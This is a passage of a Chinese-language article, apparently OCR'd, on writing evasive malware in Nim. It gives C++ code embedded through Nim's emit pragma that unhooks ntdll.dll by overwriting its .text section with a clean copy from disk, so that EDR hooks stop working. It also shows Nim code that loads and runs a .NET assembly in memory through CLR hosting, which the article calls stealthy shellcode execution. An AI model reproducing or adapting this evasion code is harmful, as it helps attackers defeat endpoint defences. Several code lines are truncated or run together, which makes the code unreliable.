 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220316204514.png)

 **2\. 躲避EDR检测的unhook dll实现**

        unhook dll中利用新映射的dll的.text区块复制到原本被hook的虚拟地址，实现覆盖，解除edr对dll的hook，实现edr的检测规避。

    在Nim中，存在Emit pragma ,可直接在Nim中嵌入C/C++代码。通过该语法将unhook dll相关代码嵌入，实现调用。

    我们在Nim中直接调用相关C++代码，部分代码如下：使用emit实现C++代码嵌入

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # 使用emit 实现嵌入{.emit: """     
    #include <Windows.h>#include <winternl.h>#include <psapi.h>#include <psapi.h>  
    int ntdllunhook(){  HANDLE process = GetCurrentProcess();  MODULEINFO mi;  HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");  
      GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));  LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;  HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);  HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);  LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);  
      PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;  PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);  
      for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {    PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZE  
        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {      DWORD oldProtection = 0;      VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize,       memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWOR      VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize,     }  }  
      CloseHandle(process);  CloseHandle(ntdllFile);  CloseHandle(ntdllMapping);  FreeLibrary(ntdllModule);  
      return 0;}

 **3\. CLR Hosting执行shellcode**

    利用CLR 托管，可以实现在内存中加载.Net 程序集，是一种隐匿的shellcode执行方式。

    在使用C\C++ 实现该功能时，需要对clr进行初始化。而在Nim中的winim库，将clr的初始化相关工作都已经进行了处理，对开发者更加友好，减少了开发者的工作量。

    相关代码如下：

  *   *   *   *   *   * 

    
    
    import winim/clr  
    var buf: array[,byte] = [...]  # 省略要执行的assemblyvar assembly = load(buf)var arr = toCLRVariant(commandLineParams(), VT_BSTR)assembly.EntryPoint.Invoke(nil, toCLRVariant([arr]))

  
